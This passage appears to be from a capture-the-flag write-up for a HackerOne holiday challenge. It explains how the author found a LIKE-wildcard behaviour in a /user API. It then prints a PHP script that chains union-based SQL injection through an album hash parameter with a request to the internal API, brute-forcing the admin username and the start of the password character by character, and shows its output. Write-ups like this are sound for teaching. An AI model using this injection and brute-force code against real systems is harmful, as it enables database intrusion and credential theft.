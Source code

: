 ok, now we have `user` endpoint with parameters `username` and `password`

### Extracting username and password

the api `/user` when supplying any random username or password value it returns error 202 which means `Successful request but with no data found`, so its kind of checking on the username or password supplied with some database in the backend for the api.
after some trial and error i found out that when providing `%` as username returns status 200, so it serves as a wildcard, probably another mysql as dbms and search and matching with `LIKE` statement
now it's just matter of bruteforcing the username and password by char, `LIKE` in mysql is case insensitive, hopefully this doesnt ruin the extracted user and pass :)
again a small php shizzle to do the job
```
$ cat b.php
<?php
$str="";
for($j=0;$j<128;$j++){
  echo "pos: ".$j."\n";
  for($i=30;$i<128;$i++){
    if(!in_array(chr($i), array('%','#','"',"'")) ){
      $a = file_get_contents("https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-3dir42%27%20union%20select%20(select%20\"%27%20union%20select%201,2,%27../api/user?".$argv[1]."=".urlencode($str.chr($i))."%25%27--%20-\")%20as%20id,1,1%20from%20album%20limit%200,1--%20-");
      preg_match("/<img class=\"img\-responsive\" src=\"(.*?)\">/", $a,$ma);
      $lol= @file_get_contents("https://hackyholidays.h1ctf.com".$ma[1]);
      if($lol=='Invalid content type detected'){
        $str .= chr($i);
        echo $str."\n";
        break;
      }
    }
  }
}

$ php b.php username
pos: 0
G
pos: 1
GR
pos: 2
GRI
pos: 3
GRIN
pos: 4
GRINC
pos: 5
GRINCH
pos: 6
GRINCHA
pos: 7
GRINCHAD
pos: 8
GRINCHADM
pos: 9
GRINCHADMI
pos: 10
GRINCHADMIN
pos: 11
pos: 12
^C

$ php b.php password
pos: 0
S
```